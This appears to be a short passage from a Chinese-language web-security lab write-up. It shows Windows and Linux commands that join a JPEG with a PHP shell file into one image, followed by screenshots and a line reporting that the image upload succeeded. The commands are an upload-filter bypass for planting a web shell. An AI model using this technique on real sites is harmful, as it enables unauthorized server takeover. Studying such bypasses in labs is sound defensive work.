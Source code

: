 ```bash
windows:
	copy 1.jpg /b + 1.php /a 2.jpg
Linux:
	cat 1.jpg shell.php > shell.jpg
```

![image-20230830201455021](./imgs/d72f614afb0b1296746a0a3995ba809d.png)

图片上传成功

![image-20230830201747393](./imgs/4799dc0128d48a2975097cd4119ce848.png)
